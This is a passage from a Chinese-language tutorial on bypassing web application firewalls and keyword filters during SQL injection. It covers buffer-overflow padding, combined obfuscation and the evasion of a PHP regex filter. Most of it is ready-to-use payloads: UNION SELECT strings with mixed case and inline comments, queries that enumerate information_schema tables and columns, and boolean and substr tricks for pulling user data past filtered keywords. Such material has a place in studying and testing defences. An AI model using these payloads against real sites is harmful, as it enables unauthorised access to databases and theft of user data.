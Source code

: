 ### h) 缓冲区溢出(Advanced)

缓冲区溢出用于对付 WAF 在内的软件本身有不少 WAF 是 C 语言写的而 C 语言自身没有缓冲区保护机制因此如果 WAF 在处理测试向量时超出了其缓冲区长度就会引发 bug 从而实现绕过

举例

```
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 
```

示例 0xA*1000 指 0xA 后面”A"重复 1000 次一般来说对应用软件构成缓冲区溢出都需要较大的测试长度这里 1000 只做参考也许在有些情况下可能不需要这么长也能溢出

### i) 整合绕过

整合的意思是结合使用前面谈到的各种绕过技术单一的技术可能无法绕过过滤机制但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说关系到总体与局部和另一方面则是多种技术的使用创造了更多的可能性组合除非每一种技术单独都无法使用否则它们能产生比自身大得多的能量。

举例

```
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e-- 
```

## 0x03 SQLi Filter 的实现及 Evasion

* * *

SQL Injection 时用得最多的一些关键字如下

```
and, or, union, where, limit, group by, select, ', hex, substr, white space 
```

对它们的检测完整正则表达式为

```
preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id) 
```

Filter Evasion 在[Beyond SQLi: Obfuscate and Bypass](http://www.exploit-db.com/papers/17934/)和[Mysql 注入科普](http://drops.wooyun.org/tips/123)可以看到比较详细的解释

这里只做简化的说明其应对方式依次为

```
***note***:"=>"左边表示会被 Filtered 的语句，"=>"右边表示成功 Bypass 的语句，左边标红的为被 Filtered 的关键字，右边标蓝的为替代其功能的函数或关键字

and => && 　　or => ||

union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin

1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin

1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 1) = 'admin'
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat(user_id),1,1) user from users )=1
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>  1 || 1 = 1 into outfile 'result.txt'　或者  1 || substr(user,1,1) = 'a'　
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || substr(user,1,1) = 0x61
　　　或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
```